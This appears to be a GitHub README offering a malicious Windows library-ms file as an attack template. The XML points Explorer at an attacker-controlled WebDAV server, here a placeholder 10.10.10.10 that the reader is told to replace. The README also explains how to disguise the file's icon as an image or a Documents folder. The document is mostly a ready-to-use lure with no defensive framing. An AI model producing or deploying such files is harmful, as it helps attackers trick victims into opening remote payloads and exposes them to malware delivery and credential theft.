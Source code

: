 # MaliciousMSLibrary

Malicious Library-ms Example Code

This repository contains code for a malicious ms-Library that shows the content of a attacker-controlled WebDAV server.

From the code below, changing *<iconReference>*  value to -1002 (keeping the same DLL) will change the icon to a Windows Documents folder. 
Actual value (-1003) sets the icon of an Image file icon.

*<url>* value must be changed to the WebDAV server address.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://10.10.10.10</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

